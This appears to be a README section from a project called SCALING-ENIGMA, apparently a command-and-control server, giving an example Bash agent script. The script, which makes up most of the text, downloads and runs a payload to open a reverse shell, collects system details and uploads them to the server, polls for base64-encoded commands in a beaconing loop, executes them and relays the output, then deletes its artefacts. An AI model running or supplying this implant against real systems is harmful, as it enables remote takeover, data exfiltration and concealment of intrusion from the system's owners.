 ## Integration with Agents

Below is an example of a possible Bash agent that integrates with the APIs in SCALING-ENIGMA. This agent can do the following:

- [x] Register with SCALING-ENIGMA and store guestID in a variable
- [x] Download a payload fom SCALING-ENIGMA and execute as required 
- [x] Create a script info.sh that is able to run commands and log output into /tmp/info.txt
- [x] Send /tmp/info.txt to SCALING-ENIGMA
- [x] Retrieve the control flag from SCALING-ENIGMA and checks if command relay regime is in force
- [x] While it is in force, performs beaconing activity to request and relay information from / to SCALING-ENIGMA
- [x] Afterwards, de-registers from SCALING-ENIGMA 
- [x] Performs clean-up of artefacts and deletes itself after completion

```
#!/bin/bash

#Registration and storing guestID in variable
export ID=$(curl -s SERVER/register);

#Download and execute payload (e.g. legacy netcat)
curl -s SERVER/download/$ID -o /tmp/evil
/tmp/evil IP_ADDRESS PORT -e /bin/bash #Just open nc -lnvp PORT to receive the reverse shell!

#Create and run scripts
cat <<EOF > /tmp/info.sh
#!/bin/bash

echo "Output for ${ID}";
echo $'\n';
uname -a;
echo $'\n';
echo $'\n';
EOF

bash /tmp/info.sh > /tmp/info.txt

#Exfiltrate data
curl -F file=@/tmp/info.txt SERVER/uploads/$ID
sleep 1

#Command Relay regime
export flag=$(curl -s SERVER/control/$ID)
while [ $flag -ne 0 ];
do
    export cmd=$(curl -s SERVER/stdin/$ID | base64 -d);
    sleep 10;
    echo "stdout=`${cmd} | base64`" | curl -d @- SERVER/stdout/$ID; #executes cmd and relays stdout in POST request body
    sleep 60; #Beaconing interval
    unset cmd;
    export flag=$(curl -s SERVER/control/$ID);
    sleep 10;
done

#De-registration
curl -s SERVER/bye/$ID

#Clean-up
unset ID
unset flag
rm /tmp/info.sh
rm /tmp/info.txt
```